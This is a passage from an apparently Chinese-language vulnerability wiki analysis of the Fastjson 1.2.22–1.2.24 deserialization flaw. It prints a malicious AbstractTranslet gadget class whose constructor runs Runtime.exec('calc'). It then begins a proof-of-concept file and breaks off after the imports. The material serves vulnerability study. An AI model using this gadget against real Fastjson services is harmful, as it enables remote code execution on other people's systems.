     public class learnFJ {
        public static void main(String args[]) {
            String text = "{\"@type\":\"ka1n4t.test.Student\",\"name\":\"ZhangSan\",\"age\":123}";
            Student obj1 = JSON.parseObject(text, Student.class, Feature.SupportNonPublicField);
            System.out.println(obj1.getName());
        }
    }

结果：

![](/Users/aresx/Documents/VulWiki/.resource/Fastjson1.2.22-1.2.24反序列化漏洞/media/rId26.png)

### 0x02 原理分析

#### 分析POC

先看一下用于反序列化的恶意类evilClass1.java:

    package ka1n4t.poc;

    import com.sun.org.apache.xalan.internal.xsltc.DOM;
    import com.sun.org.apache.xalan.internal.xsltc.TransletException;
    import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
    import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
    import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

    import java.io.IOException;

    public class evilClass1 extends AbstractTranslet/*ka1n4t*/ {


        public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
        }


        public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws TransletException {

        }

        public evilClass1() throws IOException {
            Runtime.getRuntime().exec("calc");
        }

        public static void main(String[] args) throws IOException {
            evilClass1 helloworld = new evilClass1();
        }
    }

其中的构造方法是用exec弹个计算器。看下poc，vulApp1.java：

    package ka1n4t.poc;

    import org.apache.commons.io.IOUtils;
    import org.apache.commons.codec.binary.Base64;
    import com.alibaba.fastjson.JSON;
    import com.alibaba.fastjson.parser.Feature;
    import com.alibaba.fastjson.parser.ParserConfig;
    import java.io.ByteArrayOutputStream;
    import java.io.File;
    import java.io.FileInputStream;
    import java.io.IOException;
